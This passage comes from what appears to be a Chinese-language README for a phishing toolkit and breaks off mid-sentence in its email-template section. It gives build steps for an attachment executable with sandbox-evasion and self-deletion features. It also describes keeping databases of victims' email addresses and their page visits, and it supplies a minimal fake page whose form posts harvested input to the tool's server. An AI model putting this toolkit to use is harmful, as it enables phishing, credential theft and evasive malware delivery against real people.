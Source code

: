 2. 如果选择添加资源(`is_rc=true`)，你可以随后修改`./appendix/resource.rc`，配置图标等相关信息

3. 进入文件`./appendix/Makefile.toml`，修改下面的编译选项

```toml
[env]
APPENDIX_FEATURES = "selfdelete, noheap, antisandbox" # 可选项：debug noheap antisandbox ntdll selfdelete。详细解释见appendix/Cargo.toml的[features]
```

4. 执行编译命令 (如果出现报错，可能需要下载编译链`nightly-2025-02-14-x86_64-pc-windows-gnu`)

```toml
cd ./appendix
cargo make
```

5. 编译完成后，文件在`./appendix/target/x86_64-...../release/appendix.exe`

# 注意事项

## 重要文件

- `email_database`：受害者邮箱信息和ID，在最初`--input`导入邮箱时，会记录邮箱信息。在发送钓鱼邮件后，**请勿删除**该文件或使用`--delete`删除非测试的邮箱，否则无法解析服务端数据库记录。**建议备份保存**

- `database`：服务端数据库，在发送钓鱼邮件后，请勿删除该文件，否则无法读取受害人访问记录。**建议备份保存**
  
  ## 仿冒页面
  
  下方为最简化的仿冒页面，建议使用`form`和`input`标签完成提交功能，目的是将数据通过`POST`包提交到`{{submit}}`接口
  
  ```html
  <!DOCTYPE html>
  <html>
  <head>
    <title>Dynamic Form</title>
  </head>
  <body>
    <!-- 重要部分 -->
    <form action="{{submit}}" method="post">
        <input type="text" name="key1"><br>
        <input type="text" name="key2"><br>
        <input type="text" name="key3"><br>
        <button type="submit">Submit</button>
    </form>
  </body>
  </html>
  ```

## 邮件模板

参考下方邮件模板，在邮件html文件的特定位置写入`{{index}}`、`{{qrcode}}`、`{{image}}`。这些模板在发送邮件时会根据不同的url
